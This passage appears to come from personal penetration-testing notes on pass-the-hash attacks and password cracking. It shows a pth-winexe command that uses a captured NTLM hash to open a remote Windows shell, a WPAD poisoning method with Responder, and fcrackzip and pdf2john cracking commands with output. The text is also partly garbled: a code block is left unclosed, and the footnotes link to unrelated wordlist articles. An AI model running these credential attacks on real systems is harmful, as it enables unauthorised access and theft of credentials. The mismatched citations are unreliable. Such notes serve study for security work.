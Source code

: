 When performing PtH, behind the scenes, the format of the NTLM hash we provided was changed into a **NetNTLM** version 1 or 2 [^1] format during the authentication process.
We can capture these hashes using man-in-the-middle or poisoning attacks and either [crack them](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html) or [relay them](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html).

[^1]: [Extracting in-page keywords](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20in-page%20keywords)

For example, some applications like Internet Explorer and Windows Defender use the Web Proxy Auto-Discovery Protocol ([WPAD](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol)) to detect proxy settings.  If we are on the local network, we could poison these requests and force NetNTLM authentication with a tool like [Responder.py](https://github.com/SpiderLabs/Responder) which creates a rogue WPAD server designed to exploit this security issue.

## PtH Tools

- [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
    
    ```bash
    kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
    E_md4hash wrapper called.
    HASH PASS: Substituting user supplied NTLM HASH...
    Microsoft Windows [Version 10.0.16299.309]
    (c) 2017 Microsoft Corporation. All rights reserved.
    C:\Windows\system32>
    ```
    
- [PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
- [impacket](../Tools/impacket.md#Pass-the-Hash)
- [CrackMapExec](../Tools/CrackMapExec.md)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)

---

# Cracking password-protected files

## Cracking ZIP files

```bash
┌──(kali㉿kali)-[~]
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt pwd_arch.zip

PASSWORD FOUND!!!!: pw == xoxoxo
```

## Cracking PDF files

- [john external scripts](../Tools/john.md#External%20scripts)
    
    ```
    ┌──(kali㉿kali)-[~]
    └─$ /usr/share/john/pdf2john.pl file.pdf > hash
    

[^2]: [httpsgithub.comSlon104 - GitHub - Slon104Common-PIN-Analysis-from-haveibeenpwned.com](../../Readwise/Articles/httpsgithub.comSlon104%20-%20GitHub%20-%20Slon104Common-PIN-Analysis-from-haveibeenpwned.com.md)
[^3]: [Extracting URL keywords](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20URL%20keywords)
[^4]: [Extracting keywords from JavaScript files](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20keywords%20from%20JavaScript%20files)